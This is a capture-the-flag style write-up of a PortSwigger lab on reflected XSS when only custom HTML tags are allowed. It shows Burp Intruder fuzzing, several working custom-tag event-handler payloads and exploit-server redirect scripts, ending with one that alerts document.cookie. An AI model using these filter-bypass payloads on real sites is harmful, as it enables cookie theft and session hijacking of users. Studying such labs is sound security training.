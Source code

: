 # Lab: Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.

# Step 1 Test search funtion for XSS

I find that if I search using html tags, that my output is reflected on the page:
![image](https://user-images.githubusercontent.com/83407557/211054613-0d8c6fb7-ac46-48b7-9c3e-3817e7b66c9a.png)
![image](https://user-images.githubusercontent.com/83407557/211054670-78a3702c-01c8-4baa-a846-43d1ee9f5020.png)

However any attempt to add known tags throws an error:

![image](https://user-images.githubusercontent.com/83407557/211054822-fc162e24-2602-471e-b34b-47ca803a27e7.png)
![image](https://user-images.githubusercontent.com/83407557/211054875-5b856ccd-6354-4e15-a0a2-6d971584058e.png)

# Step 2 Create an intruder attack using custom tags

I capture a test string with burp and send it to intruder:

![image](https://user-images.githubusercontent.com/83407557/211055319-7eb91c5b-a359-4ddb-9e32-405f7a839d6c.png)

I add a payload position on the string "test"

![image](https://user-images.githubusercontent.com/83407557/211055535-ee5d4dec-00fc-4fc8-b111-1c6de3dcfbf8.png)

Using the [Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) I select custom tags with all events, and copy payloads under Event handlesrs that do not require user interaction:

![image](https://user-images.githubusercontent.com/83407557/211057224-1a66daa8-4264-40b3-844d-b11e429bac22.png)

And add the copied payloads from this list into the payloads section of my intruder attack:

![image](https://user-images.githubusercontent.com/83407557/211057684-703cd62f-0c76-4fba-b534-0ea10fba33c3.png)

I find that three of the payloads returned 200 ok response codes:

![image](https://user-images.githubusercontent.com/83407557/211057929-cd2eb43e-02f5-441e-8a0b-7df76f5c048c.png)

```html
<xss id=x tabindex=1 onfocus=alert(1)></xss>

<xss id=x tabindex=1 onfocusin=alert(1)></xss>

<xss id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></xss>
```

# Step 3 Create payloads 

Using the cheat sheet I can click on the links for each of these to view a POC:

![image](https://user-images.githubusercontent.com/83407557/211066414-71ff9942-884b-4a52-b493-5979f09eb2c4.png)

![image](https://user-images.githubusercontent.com/83407557/211066623-a5c1ee2c-63b9-41f8-98f3-857dfac53cf0.png)

Using this I can copy the payload parts of the URLs:

```html
<xss id%3Dx tabindex%3D1 onfocus%3Dalert(1)><%2Fxss>#x
  
<xss id%3Dx tabindex%3D1 onfocusin%3Dalert(1)><%2Fxss>#x
  
<xss id%3Dx style%3D"transition%3Aoutline 1s" ontransitionend%3Dalert(1) tabindex%3D1><%2Fxss>#x  
```
Turning these into payloads that I can host on the attack server

```html
<script>
  location = 'https://0a6d001403c0c130c025523000e90051.web-security-academy.net/?search=<xss id%3Dx tabindex%3D1 onfocus%3Dalert(1)><%2Fxss>#x';
</script>
```

```html
<script>
  location = 'https://0a6d001403c0c130c025523000e90051.web-security-academy.net/?search=<xss id%3Dx tabindex%3D1 onfocusin%3Dalert(1)><%2Fxss>#x';
</script>
```

```html
<script>
  location = 'https://0a6d001403c0c130c025523000e90051.web-security-academy.net/?search=<xss id%3Dx style%3D"transition%3Aoutline 1s" ontransitionend%3Dalert(1) tabindex%3D1><%2Fxss>#x';
</script>
```

# Step 4 add payloads to attack server

I am going to try each payload in-turn on myself using the attack server:

## onfocus

![image](https://user-images.githubusercontent.com/83407557/211079594-2083b325-ab04-4abc-a5ed-e0f30540a131.png)

executes xss

![image](https://user-images.githubusercontent.com/83407557/211079640-3b96c85a-3fc5-4a0f-890b-04cb9e10a4dc.png)


## onfocusin

![image](https://user-images.githubusercontent.com/83407557/211079856-ec4f44c4-0c3c-4eae-8e33-0889e1cb0f32.png)

executes xss

![image](https://user-images.githubusercontent.com/83407557/211079932-84ce756c-4031-40ea-a39f-be08dec66ae9.png)

## ontransitionend

![image](https://user-images.githubusercontent.com/83407557/211080314-c950a347-1b82-4402-ae7d-7bcead2d40ac.png)

Executes xss

![image](https://user-images.githubusercontent.com/83407557/211080568-857551d1-0146-4de1-88ae-8ae12069d593.png)

So all three payloads can be used to exploit the victim

# Step 5 modify a payload to alert document.cookie

Since the POC were all using alert(1), I change it to alert(document.cookie) 

![image](https://user-images.githubusercontent.com/83407557/211081083-0fc9b385-24bd-4958-b0d7-cd1b224a238b.png)

And retest the exploit on myself(blank since I have no cookies:

![image](https://user-images.githubusercontent.com/83407557/211081189-f247e6ff-729c-4aeb-99fa-5e16bc9c45a0.png)

# Step 6 send exploit to victim

Despite all of the payloads working against me, the only one that solves the lab seems to be this one:

```html
<script>
  location = 'https://0ad6009d045b3b60c04db8d4007800ed.web-security-academy.net/?search=<xss id%3Dx tabindex%3D1 onfocus%3Dalert(document.cookie)><%2Fxss>#x';
</script>
```
![image](https://user-images.githubusercontent.com/83407557/211084213-2984d535-2d66-48b3-be52-5812aa662baa.png)

